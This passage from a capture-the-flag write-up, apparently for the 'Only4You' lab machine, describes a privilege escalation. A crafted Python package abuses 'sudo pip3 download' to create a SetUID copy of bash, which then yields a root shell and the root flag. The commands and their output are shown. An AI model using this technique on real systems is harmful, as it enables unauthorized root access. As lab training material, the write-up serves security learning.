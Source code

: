 Now instead of `touch` a file, it copies `bash` and sets it as SetUID. I’ll do the same steps, `python -m build`, upload, set the repo public (there’s a cron constantly resetting that), and run the command as john:

```

john@only4you:~$ sudo /usr/bin/pip3 download http://127.0.0.1:3000/john/Test/raw/master/own_this_is_for_you-0.0.1.tar.gz
Collecting http://127.0.0.1:3000/john/Test/raw/master/own_this_is_for_you-0.0.1.tar.gz
  Downloading http://127.0.0.1:3000/john/Test/raw/master/own_this_is_for_you-0.0.1.tar.gz (821 bytes)
  Saved ./own_this_is_for_you-0.0.1.tar.gz
Successfully downloaded own-this-is-for-you

```

Now `/tmp/0xdf` is `bash`, which I can run with `-p` to keep root:

```

john@only4you:~$ /tmp/0xdf -p
0xdf-5.0# 

```

And read the root flag:

```

0xdf-5.0# cat root.txt
c9b85bc4************************

```